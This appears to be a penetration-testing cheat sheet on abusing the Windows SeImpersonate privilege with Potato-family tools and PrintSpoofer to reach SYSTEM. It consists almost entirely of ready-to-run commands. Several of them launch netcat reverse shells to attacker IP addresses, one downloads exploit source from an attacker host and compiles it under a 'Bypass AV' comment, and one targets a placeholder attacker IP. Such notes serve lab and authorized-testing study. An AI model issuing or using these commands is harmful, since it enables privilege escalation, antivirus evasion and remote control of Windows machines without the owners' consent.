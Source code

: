 # SeImpersonate

> [!WARNING]
> **JuicyPotato doesn't work** on Windows Server 2019 and Windows 10 build 1809 onwards. However, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato) can be used to **leverage the same privileges and gain** `**NT AUTHORITY\SYSTEM**` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### SharpEfsPotato
```
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
```
### EfsPotato
https://github.com/zcgonvh/EfsPotato
```
Invoke-WebRequest -Uri http://10.10.14.165:8000/EfsPotato.cs -OutFile EfsPotato.cs

# Bypass AV
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

./EfsPotato.exe '.\nc64.exe 10.10.14.165 5555 -e cmd'
```
### JuicyPotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 

```powershell
JuicyPotato.exe -l 1337 -p "C:\Users\sophie\nc.exe" -a "-e cmd.exe 10.10.14.6 4444" -t *
```

However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
### RoguePotato
```powershell
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999
```
### PrintSpoofer
```powershell
.\PrintSpoofer64.exe -c "C:\Users\Public\Documents\nc64.exe 10.10.14.165 5555 -e cmd"
```
### GodPotato
```powershell
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"
```

### References:
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer